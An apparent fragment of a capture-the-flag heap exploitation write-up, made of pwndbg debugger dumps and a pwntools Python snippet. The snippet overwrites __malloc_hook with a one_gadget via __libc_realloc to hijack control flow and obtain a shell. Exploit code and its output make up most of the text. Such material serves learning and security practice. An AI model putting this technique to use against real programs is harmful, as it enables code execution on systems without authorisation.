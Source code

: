10:0080│      0x7ffc0e579e38 —▸ 0x400db7 (main) ◂— push   rbp
11:0088│      0x7ffc0e579e40 ◂— 0x0
12:0090│      0x7ffc0e579e48 ◂— 0xc02e630d3a52b380
13:0098│      0x7ffc0e579e50 —▸ 0x4007a0 (_start) ◂— xor    ebp, ebp

```
rax 30 50 70 not null, one_gadget not ok, need to use realloc
```
pwndbg> p &__malloc_hook
$1 = (void *(**)(size_t, const void *)) 0x7f23cef89b10 <__malloc_hook>
pwndbg> telescope 0x7f23cef89b10-0x20
00:0000│   0x7f23cef89af0 (_IO_wide_data_0+304) —▸ 0x7f23cef88260 (_IO_wfile_jumps) ◂— 0x0
01:0008│   0x7f23cef89af8 ◂— 0x0
02:0010│   0x7f23cef89b00 (__memalign_hook) —▸ 0x7f23cec4aea0 (memalign_hook_ini) ◂— push   r12
03:0018│   0x7f23cef89b08 (__realloc_hook) —▸ 0x7f23cec4aa70 (realloc_hook_ini) ◂— push   r15
04:0020│   0x7f23cef89b10 (__malloc_hook) ◂— 0x0
... ↓
pwndbg> p &__realloc_hook
$2 = (void *(**)(void *, size_t, const void *)) 0x7f23cef89b08 <__realloc_hook>
```
```python
delete(4)
edit(5, 0x68, flat('1' * 0x60, 0x170))
delete(6)
delete(5)
#add(0x120, flat(cyclic(n = 8, length = 0x120)))
add(0x120, flat('a' * 248, 0x71, libc.sym['__malloc_hook'] - 0x23))
add(0x68, 'x' * 10)
#add(0x68, flat('\0' * 0x13, libc.sym['one_gadget']))
pause()
add(0x68, flat('\0' * 11, libc.sym['one_gadget'], libc.sym['__libc_realloc'] + 16))
p.sendlineafter('choice:', '2')
p.sendlineafter(':', str(0xff))
```
```gdb -q -p `pidof pwn` -ex "b *0x400AB8" -ex "c"``
ni magic x/5i... b ... c magic realloc is changed to one_gadget ni... si rsp+0x30 is null`
```
pwndbg> ni
pwndbg> magic
========== function ==========
system:0x453a0
execve:0xcc7f0
open:0xf70f0
read:0xf7310
write:0xf7370
gets:0x6ed90
setcontext+0x35:0x47b85
========== variables ==========
__malloc_hook(0x3c4b10)             : 0x00007feb14f65720
__free_hook(0x3c67a8)               : 0x0000000000000000
__realloc_hook(0x3c4b08)            : 0x00007feb14f2627a
stdin(-0x7feb148def50)              : 0x00007feb152a58e0
stdout(-0x7feb148def60)             : 0x00007feb152a6620
_IO_list_all(0x3c5520)              : 0x00007feb152a6540
__after_morecore_hook(0x3c67a0)     : 0x0000000000000000
pwndbg> x/5i 0x00007feb14f65720
   0x7feb14f65720 <__GI___libc_realloc+16>:	sub    rsp,0x38
   0x7feb14f65724 <__GI___libc_realloc+20>:	mov    rax,QWORD PTR [rip+0x33f8a5]        # 0x7feb152a4fd0
   0x7feb14f6572b <__GI___libc_realloc+27>:	mov    rax,QWORD PTR [rax]
   0x7feb14f6572e <__GI___libc_realloc+30>:	test   rax,rax
   0x7feb14f65731 <__GI___libc_realloc+33>:	jne    0x7feb14f65958 <__GI___libc_realloc+584>
pwndbg> b *0x00007feb14f65720
Breakpoint 2 at 0x7feb14f65720: file malloc.c, line 2981.
pwndbg> c